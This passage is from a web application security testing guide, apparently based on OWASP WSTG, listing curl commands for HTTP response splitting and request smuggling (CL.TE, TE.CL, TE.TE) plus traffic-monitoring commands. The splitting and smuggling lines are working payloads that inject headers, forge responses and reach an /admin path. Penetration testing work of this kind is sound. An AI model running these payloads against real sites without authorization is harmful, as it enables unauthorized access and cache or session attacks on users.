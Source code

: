 **Objective**: Assess if the application is vulnerable to splitting, identifying what possible attacks are achievable, and identify if the chain of communication is vulnerable to smuggling.

### Commands

```bash
# Test for HTTP response splitting
curl -s "https://example.com/redirect?url=https://example.org%0D%0ASet-Cookie:%20malicious=1"
curl -s "https://example.com/redirect?url=https://example.org%0D%0AContent-Length:%200%0D%0A%0D%0AHTTP/1.1%20200%20OK%0D%0AContent-Type:%20text/html%0D%0A%0D%0A<html>Fake%20page</html>"

# Test for HTTP request smuggling (CL.TE)
curl -s -X POST "https://example.com/" -H "Content-Length: 57" -H "Transfer-Encoding: chunked" -d "0\r\n\r\nGET /admin HTTP/1.1\r\nHost: example.com\r\n\r\nX"

# Test for HTTP request smuggling (TE.CL)
curl -s -X POST "https://example.com/" -H "Content-Length: 4" -H "Transfer-Encoding: chunked" -d "12\r\nGET /admin HTTP/1.1\r\n\r\n0\r\n\r\n"

# Test for HTTP request smuggling (TE.TE)
curl -s -X POST "https://example.com/" -H "Transfer-Encoding: chunked" -H "Transfer-Encoding: identity" -d "0\r\n\r\nGET /admin HTTP/1.1\r\nHost: example.com\r\n\r\n"

# Test for HTTP request smuggling with different headers
curl -s -X POST "https://example.com/" -H "Content-Length: 57" -H "Transfer-Encoding: chunked" -H "X-Forwarded-For: 127.0.0.1" -d "0\r\n\r\nGET /admin HTTP/1.1\r\nHost: example.com\r\n\r\nX"

# Use specialized tools for HTTP request smuggling
python3 smuggler.py -u "https://example.com/"
```

## WSTG-INPV-16: Testing for HTTP Incoming Requests

**Objective**: Monitor all incoming and outgoing HTTP requests to the Web Server to inspect any suspicious requests and monitor HTTP traffic without changes of end user Browser proxy or client-side application.

### Commands

```bash
# Set up a proxy to monitor HTTP traffic
mitmproxy -p 8080

# Use Burp Suite to monitor traffic (command-line representation)
java -jar burpsuite_pro.jar

# Use tcpdump to capture HTTP traffic
sudo tcpdump -i eth0 -A -s 0 'tcp port 80 or tcp port 443'

# Use netcat to listen for incoming connections
nc -l -p 8080

# Use Wireshark to capture and analyze traffic (command-line representation)
tshark -i eth0 -f "tcp port 80 or tcp port 443"

# Set up a simple HTTP server to monitor requests
python3 -m http.server 8080

# Use ModSecurity to monitor and log HTTP requests
tail -f /var/log/apache2/modsec_audit.log
```
